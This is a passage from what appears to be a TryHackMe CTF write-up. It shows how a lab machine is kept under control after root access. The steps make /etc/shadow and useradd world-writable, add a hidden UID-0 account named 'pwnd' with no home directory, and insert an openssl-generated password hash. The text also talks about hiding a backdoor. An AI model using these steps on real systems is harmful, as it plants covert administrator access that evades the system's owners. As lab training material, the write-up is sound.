 Then, `chmod 777 /etc/shadow` and add our new password for the `root` user.

We could also `chmod 777 /usr/sbin/useradd` and use it to create a new "hidden" user. 

For example (as root user):

```
$ useradd -M -ou 0 -g 0 -s /bin/bash pwnd
```

![[allinone_21.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/AllinOne/images/allinone_21.png)

Generate a password

```
openssl passwd -6 -salt lol lol
```

![[allinone_22.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/AllinOne/images/allinone_22.png)

Add the password to `/etc/shadow`

![[allinone_23.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/AllinOne/images/allinone_23.png)

Now, we're basically a new `root` user. This will give us an escalation path. We can hide a `backdoor` on the web-server (spawning as `www-data`), or use `ssh`  (we'd have to set that up for this machine) and once we're in we can simply:

```
# su pwnd
root@elyana:/# whoami
root
```

![[allinone_24.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/AllinOne/images/allinone_24.png)<br />
*redundant `whoami`, lol*

Hopefully, our unique name can hide... at least if they don't check `/etc/passwd` or `/etc/shadow`. Using `-M` means we don't have a `home` directory so we are mostly "hidden".

We can even use the `elyana` user to escalate. As well as any `backdoor` that we may have.
